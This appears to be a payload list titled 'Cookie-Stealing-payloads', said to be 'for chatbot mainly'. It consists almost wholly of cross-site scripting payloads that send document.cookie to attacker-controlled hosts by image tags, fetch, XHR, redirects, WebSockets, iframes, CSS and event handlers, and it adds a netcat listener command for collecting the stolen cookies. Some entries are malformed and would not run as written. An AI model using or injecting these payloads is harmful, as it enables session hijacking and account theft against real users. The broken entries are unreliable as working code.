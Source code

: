 # Cookie-Stealing-payloads
For chatbot mainly 

document.write('<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />')

<script>new Image().src='https://attacker.com/steal?cookie='+document.cookie;</script>

<script>fetch('https://your-server.com/steal?cookie='+document.cookie)</script>

document.write('cookie: ' + document.cookie)

<script>
  var i = new Image();
  i.src = "http://your-server.com/log?cookie=" + document.cookie;
</script>
 
Set Up a Listener : nc -lvp 8080

1. Basic Cookie Exfiltration

<script>fetch('http://your-server.com/log?cookie=' + document.cookie);</script>

2. Using an Image

<img src="http://your-server.com/log?cookie=" + document.cookie />

3. Redirect via Script

<script>window.location='http://your-server.com/log?cookie=' + document.cookie;</script>

4. Dynamic JavaScript File Inclusion

<script src="http://your-server.com/log.js?cookie=" + document.cookie></script>

5. XHR (XMLHttpRequest)

<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://your-server.com/log?cookie=" + document.cookie, true);
  xhr.send();
</script>

6. Form Submission

<form action="http://your-server.com/log" method="POST">
  <input type="hidden" name="cookie" value="<script>document.cookie</script>" />
  <input type="submit">
</form>

7. Iframe Cookie Stealing

<iframe src="http://your-server.com/log?cookie=" + document.cookie></iframe>

8. WebSocket

<script>
  var ws = new WebSocket("ws://your-server.com");
  ws.onopen = function() {
    ws.send(document.cookie);
  };
</script>

9. CSS URL Injection (Non-Script)

<div style="background-image: url('http://your-server.com/log?cookie=" + document.cookie);"></div>

10. Event-Based Injection

<input onfocus="fetch('http://your-server.com/log?cookie=' + document.cookie)" autofocus>
